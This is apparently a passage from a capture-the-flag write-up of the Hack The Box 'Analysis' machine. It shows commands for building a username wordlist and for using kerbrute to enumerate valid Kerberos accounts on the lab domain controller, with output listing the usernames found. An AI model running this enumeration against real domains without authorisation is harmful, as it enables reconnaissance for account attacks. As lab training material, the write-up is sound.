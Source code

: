 ```
http://internal.analysis.htb/employees/login.php
```

Username Enumeration.

```
┌──(Batman㉿GC)-[~]
└─$ cp /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt possible-usernames.txt// Some code
```

```
┌──(Batman㉿GC)-[~]
└─$ sed -i "s|$|@analysis.htb|" possible-usernames.txt
```

```
┌──(Batman㉿GC)-[~]
└─$ git clone https://github.com/ropnop/kerbrute.git
Cloning into 'kerbrute'...
remote: Enumerating objects: 845, done.
remote: Counting objects: 100% (47/47), done.
remote: Compressing objects: 100% (29/29), done.
remote: Total 845 (delta 18), reused 36 (delta 17), pack-reused 798
Receiving objects: 100% (845/845), 419.71 KiB | 3.23 MiB/s, done.
Resolving deltas: 100% (371/371), done.
```

```
┌──(Batman㉿GC)-[~/kerbrute]
└─$ go build
go: downloading github.com/ropnop/gokrb5/v8 v8.0.0-20201111231119-729746023c02
go: downloading github.com/op/go-logging v0.0.0-20160315200505-970db520ece7
go: downloading github.com/spf13/cobra v1.1.1
go: downloading github.com/spf13/pflag v1.0.5
go: downloading github.com/jcmturner/gofork v1.0.0
go: downloading github.com/jcmturner/dnsutils/v2 v2.0.0
go: downloading github.com/hashicorp/go-uuid v1.0.2
go: downloading golang.org/x/crypto v0.0.0-20201016220609-9e8e0b390897
go: downloading github.com/jcmturner/rpc/v2 v2.0.2
go: downloading github.com/jcmturner/aescts/v2 v2.0.0
go: downloading golang.org/x/net v0.0.0-20200114155413-6afb5195e5aa// Some code
```

```
┌──(Batman㉿GC)-[~/kerbrute]
└─$ ./kerbrute userenum -d analysis.htb ../possible-usernames.txt --dc analysis.htb

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/23/24 - Ronnie Flathers @ropnop

2024/01/23 13:17:16 >  Using KDC(s):
2024/01/23 13:17:16 >   analysis.htb:88

2024/01/23 13:17:16 >  [+] VALID USERNAME:       jdoe@analysis.htb
2024/01/23 13:18:14 >  [+] VALID USERNAME:       ajohnson@analysis.htb
2024/01/23 13:18:20 >  [+] VALID USERNAME:       cwilliams@analysis.htb
2024/01/23 13:20:10 >  [+] VALID USERNAME:       wsmith@analysis.htb
2024/01/23 13:21:25 >  [+] VALID USERNAME:       jangel@analysis.htb
2024/01/23 13:22:44 >  [+] VALID USERNAME:       technician@analysis.htb
2024/01/23 13:27:14 >  [+] VALID USERNAME:       JDoe@analysis.htb
```
